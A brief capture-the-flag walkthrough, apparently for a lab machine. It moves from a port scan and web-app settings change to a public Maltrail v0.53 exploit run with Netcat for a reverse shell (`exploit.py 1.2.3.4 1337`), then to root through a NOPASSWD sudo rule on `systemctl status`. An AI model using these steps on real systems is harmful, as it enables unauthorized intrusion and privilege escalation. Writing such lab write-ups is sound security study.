 # Writeup
Let scan it first, we can see there are some open ports here.
![](./img/scan.png)
Access to the website, go to my basket link. Modify `settings`
![](./img/web.png)
Do some research about `Maltrail (v0.53)`, we have payload file.
![](./img/search.png)
Using `Netcat` and `python3 exploit.py 1.2.3.4 1337 http://example.com`, we can now get a reverse shell.
![](./img/flag.png)
`sudo -l` to check the list of commands that the current user can execute with elevated privileges using sudo.
![](./img/sudo.png)
`   (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service` We can do this command to escalate privilege by `sudo /usr/bin/systemctl status trail.service`
![](./img/root.png)
